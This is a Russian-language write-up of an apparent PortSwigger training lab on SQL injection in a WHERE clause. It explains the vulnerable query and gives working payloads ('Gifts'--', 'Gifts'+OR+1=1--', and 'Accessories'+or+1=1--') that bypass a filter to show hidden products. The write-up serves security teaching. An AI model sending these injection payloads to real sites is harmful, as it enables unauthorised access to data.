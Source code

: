 # SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Theory

<h3>Игнорирование части запроса</h3>

Данный запрос заставляет приложение выполнить SQL-запрос для получения соответсвующих продуктах из базы данных:
```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

SQL-запрос просит базу данных вернуть следующее:

* Все детали (*)
* Из таблицы products
* Где категория Gifts
* Которые выпущены (released 1)

Ограничение **released = 1** используется, чтобы скрыть невыпущенные продукты.

Так как приложение не защищено, злоумышленник может использовать следующий эксплоит:
```
https://site/products?category=Gifts'--
```

SQL-запрос будет выглядеть следующим образом:
```
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1
```

Ключевым моментом здесь является двойное тире **"--"**, которое в SQL означает комментарий. Это значит, что остальная часть запроса после "--" игнорируется.

<h3>Показывать все продукты, незивисимо от категории</h3>

Для того, чтобы отобразить все продукты независимо от категории можно использовать следующий эксплоит:
```
https://site/products?category=Gifts'+OR+1=1--
```

Запрос будет выгляденть следующим образом:
```
SELECT * FROM products WHERE category = 'Gifts' or 1=1 -- ' AND released = 1
```

## Writeup

Главная страница:

![](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/assets/1.png)

Выберем пункт Accessories.

![](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/assets/2.png)

Модифицируем запрос, чтобы получить все продукты:
```
/filter?category=Accessories'+or+1=1--
```

Отправляем запрос и получает ответ от сайта

![](https://github.com/fobblified/Writeups/tree/main/Portswigger/SQL_injection/SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data/assets/3.png)


